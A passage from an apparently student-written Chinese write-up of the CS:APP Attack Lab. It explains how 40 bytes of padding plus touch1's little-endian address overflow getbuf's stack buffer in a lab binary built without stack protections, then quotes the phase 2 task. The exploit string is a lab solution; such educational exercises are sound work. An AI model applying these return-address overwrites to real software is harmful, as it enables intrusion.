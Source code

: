 ```asm
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

我将三个涉及到的东西提取了出来. 主要看getbuf和touch1函数.

对于getbuf来说, 我们看到汇编的第一句就是

```asm
sub $0x28,%rsp
```

也就是说, getbuf首先开辟了0x28的stack空间.

对于touch1来说,我们知道它的地址是:0x4017c0. 

好的,知道这两点,我们就可以写攻击代码了, 在写之前, 先画个示意图:

![image-20200720231159598](https://ravenxrz-blog.oss-cn-chengdu.aliyuncs.com/img/github_img/image-20200720231159598.png)

说明:

1. 单元格中存放的是起始起始,一个内存单元8个字节
2. buffer由低到高写入

关键点是要 **覆盖test 401976**这个单元, 正常情况下,这里存放这从getbuf返回后,test函数中getbuf的下一行汇编指令. 要从test中抢夺函数控制权, 就需要覆盖这里. 那覆盖成什么样? 当然就是我们 touch1函数的首地址了, 另外需要注意机器的字节序(这里是小端序). 综上, 攻击代码如下:

```
/* question1: 填充40个字节后加入touch1的返回地址(小端序) */
00 00 00 00 00 00 00 00 /* 8 byte */
00 00 00 00 00 00 00 00 /* 8 byte */
00 00 00 00 00 00 00 00 /* 8 byte */
00 00 00 00 00 00 00 00 /* 8 byte */
00 00 00 00 00 00 00 00 /* 8 byte */
c0 17 40 00 00 00 00 00 /* touch1 address */
```

40 = 0x28

> 请注意, 之所以可以做,因为ctarget在汇编时关闭了 **stack随机和注入代码不可执行** 两个常用的阻止注入攻击的方法, 否则这个题就目前的知识来说是无解的.

## 2. Phase 2

题目:

Phase 2 involves injecting a small amount of code as part of your exploit string. Within the file ctarget there is code for a function touch2 having the following C representation:

```c
void touch2(unsigned val)
{
    vlevel = 2;
     /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
	}
	exit(0);
}
```
